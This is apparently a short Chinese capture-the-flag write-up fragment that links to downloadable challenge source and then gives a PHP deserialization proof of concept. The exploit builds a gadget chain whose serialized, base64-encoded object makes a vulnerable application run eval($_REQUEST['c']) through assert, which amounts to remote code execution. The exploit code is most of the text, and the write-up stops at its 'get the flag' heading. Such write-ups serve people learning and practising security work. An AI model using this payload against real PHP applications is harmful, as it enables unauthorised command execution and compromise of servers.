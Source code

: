 源代码传送门：

> 链接：https://pan.baidu.com/s/1byWki_NV9yZNb34xuGEkBA 提取码：xv3m

编写POC：

```
<?php

class Gema {

protected $xbx = 'assert';

}

// AAAAAAAAAAAAAA

class This {

protected $formatters = ['dispatch' => 'obj...'];

public function __construct($obj){

$this -> formatters['dispatch'] = $obj;

}

}

class Easy{

protected $events;

protected $event = [1 => ['eval($_REQUEST["c"])']];

public function __construct($obj)

{

$this -> events = $obj;

}

}

$obj = new Easy(new This(new Gema()));

echo base64_encode(serialize($obj)); 
```

获取Flag：
